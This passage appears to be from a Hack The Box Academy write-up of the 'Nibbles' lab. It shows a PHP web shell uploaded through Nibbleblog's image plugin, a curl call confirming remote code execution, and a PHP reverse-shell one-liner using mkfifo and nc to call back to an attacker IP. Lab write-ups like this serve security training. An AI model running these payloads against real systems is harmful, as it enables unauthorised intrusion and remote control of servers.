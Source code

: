 ## Initial Foothold
Now that we are logged in to the admin portal, we need to attempt to turn this access into code execution and ultimately gain reverse shell access to the webserver. We know a Metasploit module will likely work for this, but let us enumerate the admin portal for other avenues of attack.

If we take a look at the installed plugins, we can find one called "My image". A plugin that allows us to upload pictures to the blog.
![Plugins](./images/nibbles_plugins.png)

Uploading files can always be crucial.

Trying to upload a small payload:
```php
<?php system('id'); ?>
```

In a file called `payload.php` throws some error on the website. That's a good sign. The images are stored under the path `nibbleblog/content/private/plugins/my_image/`. That can be enumerated while searching through the directories of the webserver.

In here we also find our uploaded file. It has been renamed to `image.php`. If we try to access it we can see that we got our RCE:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ curl http://10.129.179.77/nibbleblog/content/private/plugins/my_image/image.php
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/htb_academy]
└─$ 
```

The only thing we have to do now is to upload a reverse shell to the system. For example the following:
```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.14 8081 >/tmp/f'); ?>
```
